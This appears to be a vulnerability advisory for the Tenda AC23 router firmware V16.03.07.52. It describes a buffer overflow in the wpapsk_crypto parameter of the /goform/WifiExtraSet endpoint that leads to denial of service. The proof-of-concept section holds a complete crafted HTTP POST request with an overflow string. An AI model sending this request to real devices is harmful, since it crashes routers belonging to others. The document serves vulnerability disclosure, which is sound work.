

# Information

**Vendor of the products:** Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:** https://www.tenda.com.cn/

**Affected products:** AC23

**Affected firmware version:** V16.03.07.52

**Firmware download address:** [AC23_服务支持_腾达Tenda官方网站](https://www.tenda.com.cn/product/help/AC23#download)

# Overview

A buffer overflow vulnerability was discovered in Tenda AC23 router firmware version `V16.03.07.52`. An attacker can trigger process abnormality by sending a crafted HTTP POST request to the `/goform/WifiExtraSet` interface path, resulting in a Denial of Service (DoS) attack.

# Vulnerability Details

The vulnerability is caused by insufficient boundary checks in the buffer handling code when processing the `wpapsk_crypto` parameter. When a specially crafted value is sent to the `/goform/WifiExtraSet` endpoint, it triggers a buffer overflow condition.




# POC

```
POST /goform/WifiExtraSet HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 140

wifi_chkHz=0&wl_mode=ap2&security=wpapsk&wpapsk_type=wpa2&wpapsk_key=12345678&wpapsk_crypto=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
```


